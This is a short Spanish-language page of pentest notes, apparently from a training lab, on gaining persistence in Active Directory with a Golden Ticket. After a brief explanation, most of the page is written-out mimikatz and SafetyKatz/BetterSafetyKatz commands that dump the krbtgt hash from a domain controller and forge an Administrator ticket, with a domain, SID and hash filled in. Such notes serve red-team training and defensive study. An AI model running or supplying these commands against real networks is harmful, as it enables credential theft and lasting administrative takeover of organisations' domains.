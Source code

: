 # Active Directory Domain Dominance

Hay muchas mas cosas en AD que únicamente obtener administrador de dominio.

**Domain Persistence - Golden Ticket**

- Un Golden Ticket está firmado y cifrado por el hash de krbtgt que lo convierte en un ticket TGT válido.
- Dado que la validación de la cuenta de usuario no se realiza mediante el controlador de dominio (KDC
servicio) hasta que TGT tenga más de 20 minutos, podemos usar incluso
cuentas eliminadas/revocadas/inexistentes.
- El hash de usuario krbtgt podría utilizarse para suplantar a cualquier usuario con
cualquier privilegio incluso de un equipo que no sea de dominio.
- El cambio de contraseña única no tiene ningún efecto en este ataque como contraseña
se mantiene el historial de la cuenta

Ejecutamos mimikatz en el DC para obtener el hash de krbtgt:

`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`

En una máquina que puede llegar al CONTROLADOR DE DOMINIO a través de la red:

`Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

Usando SafetyKatz:

`C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit"`

En una máquina que puede llegar al CONTROLADOR DE DOMINIO a través de la red(necesita ejecutar como admin):

`C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 
/krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"`

![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled.png)
